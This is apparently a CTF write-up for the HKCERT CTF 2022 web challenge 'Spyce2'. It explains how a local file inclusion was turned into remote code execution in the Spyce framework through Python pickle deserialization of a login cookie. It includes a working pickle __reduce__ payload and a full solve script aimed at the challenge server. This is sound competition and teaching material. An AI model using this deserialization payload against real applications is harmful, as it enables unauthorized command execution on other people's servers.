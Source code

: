 ```yaml
---
title: "HKCERTCTF 2022 Writeup"
date: 2022-11-15T17:00:10+08:00
draft: false
categories:
 - ctf
tags:
 - ctf
 - writeup
 - web
summary: "Writeup for HKCERT CTF 2022"
---
```


# Background
11 Nov 2022, 18:00 HKT — 13 Nov 2022, 18:00 HKT  
Format: Jeopardy  
Official URL: https://ctf.hkcert.org/  
Organisers: HKCERT, Black Bauhinia 
CTFtime: https://ctftime.org/event/1722 

After one lazy year, this blog is updated again and it is the writeup for the HKCERT CTF 2022, which is also the 2nd year I participated and got the same result - the 5-th in the open category.
This time I prepared only 1 writeup (not because of lazy :P) which has only 1 solve (:D) and it is an unintened solution (The author's method is about injecting payload to the sqlite database then include it). This also show the value of white-box penetration testing: when provided the full source code of an framework, we can always find many different ways to exploit.
Btw I hope I could have more time to update the blog, as there are few awesome red teaming related research I would like to share...

# Challenge
## Spyce2 - Web (400 points)
### Challenge :
> Flag 2: Read /flag2-*


### Files : 
[spyce_222c677640e7721636b146c58425aee3.zip](/files/HKCERT/spyce_222c677640e7721636b146c58425aee3.zip)

### Solution : 
This is part 2 of the challenge "Spyce". From the provided `Dockerfile`, we know that the filename of flag2 was appended with 64 random alphanumeric characters :

`RUN mv /flag2 /flag2-$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 64 | head -n 1)`

Recall in part 1, we can perform LFI to get the flag1 but since we don't know the exact file name of flag2, we cannot simply redo with LFI, but maybe we can try to achieve RCE from LFI (which is also a very common attack path). 

When it comes to "RCE from LFI", usually we will look into the logs and sessions. While nothing was found when searching for the logs, a folder `spyce-2.1/www/login-tokens` was found and it looks interesting (and suspicious) to me.

Next I tried to search for the relevant code that will interact with this folder and I found the file `spyce-2.1/spyceconf.py` with the line of code

`login_storage = FileStorage(os.path.join(SPYCE_HOME, 'www', 'login-tokens'))`,

suggesting this folder is responsible for storing some login information, maybe the login sessions? Also in the file a few lines followed are describing the tags to render login form, so let's try some local testing.

I spinned up a docker container and accessed one of the examples `spyce-2.1/www/docs/examples/login-optional.spy`. We can see a new file `spytoken-2` was created after a success login with user id `2`, and there is a cookie `_spy_login` set with the value storing in this file.

(![local test](https://user-images.githubusercontent.com/19466939/201954634-8eae0eb7-5178-40af-990f-cd095f11cc38.png)

Through the LFI, we are able to access and retrieve the value of the session, so let's see if we could inject malicious payload to the session and gain RCE.

![LFI](https://user-images.githubusercontent.com/19466939/201954716-d8ff52a1-cf4e-4684-b59d-9e43b6a58f74.png)


Next let's try to search for the relevant code handling the session with the keyword `spytoken` and from the file `spyce-2.1/tags/_coreutil.py` we could find the relevant logic. When reviewing the code of the function `login_from_cookie`, the line of code 

`uid, token = pickle.loads(cookie['_spy_login'])`

caught my attention: it may be possible to achieve RCE via the Python pickle deserialization.

A quick poc (in Python version 2.7) was developed and it worked successfully, by sending a request to the page `login-optional.spy` (`login-required.spy` would work as well) and the file containing the result of listing root directory was created.

![RCE](https://user-images.githubusercontent.com/19466939/201954750-abe23232-4136-49df-8383-bbdb3c38b1d5.png)


```
import pickle
import os
import urllib
class genpoc(object):
    def __reduce__(self):
        s = "ls / > /home/spwnce/www/login-tokens/ja5on_givemetheflag.txt"
        return os.system, (s,)

e = genpoc()
poc = pickle.dumps(e)
print(urllib.quote(poc))
```
With the full filename of flag2, we could then get the flag via LFI used in part 1!
A sample automated script was attached below.

**Solve:**
```
import pickle
import os
import urllib
import requests

class genpoc(object):
    def __reduce__(self):
        s = "ls / > /home/spwnce/www/login-tokens/ja5on_givemetheflag.txt"
        return os.system, (s,)

# Generate the Python pickle deserialization payload
e = genpoc()
payload = urllib.quote(pickle.dumps(e))

url = "http://chal-b.hkcert22.pwnable.hk:28039"
cookies = {'_spy_login': payload}

# Python pickle deserialization RCE
r = requests.get(url + "/docs/examples/login-optional.spy", cookies=cookies)

# Get the full file name of flag2
r = requests.get(url + "/login-tokens/ja5on_givemetheflag.txt")
pos = r.text.find('flag2')

# LFI to get flag2
r = requests.get(url + "/dump.spy?path=/" + r.text[pos:pos+70])

print("Flag: ")
print(r.text)
```

FLAG : **hkcert22{LFI2RCE_again....Maybe_PSP_is_w0r5e_tyan_PHP}**
